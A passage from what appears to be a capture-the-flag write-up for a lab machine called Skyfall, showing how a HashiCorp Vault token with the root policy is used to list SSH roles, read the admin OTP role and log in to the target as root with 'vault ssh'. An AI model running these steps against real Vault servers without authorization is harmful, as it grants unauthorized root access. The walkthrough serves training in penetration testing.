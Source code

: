 It has the `root` policy! That's promising.

#### SSH

There's a bunch of enumeration I could do, but I'll remember there were
two SSH roles:



    oxdf@hacky$ vault list ssh/roles
    Keys
    ----
    admin_otp_key_role
    dev_otp_key_role



This token can read the roles:



    oxdf@hacky$ vault read ssh/roles/admin_otp_key_role
    Key                  Value
    ---                  -----
    allowed_users        root
    cidr_list            10.0.0.0/8
    default_user         nobody
    exclude_cidr_list    n/a
    key_type             otp
    port                 22



The user allowed is root. I'll SSH:



    oxdf@hacky$ vault ssh -role admin_otp_key_role -mode otp root@skyfall.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)
    ...[snip]...
    root@skyfall:~#



And grab the flag:



    root@skyfall:~# cat root.txt
    27c61477************************







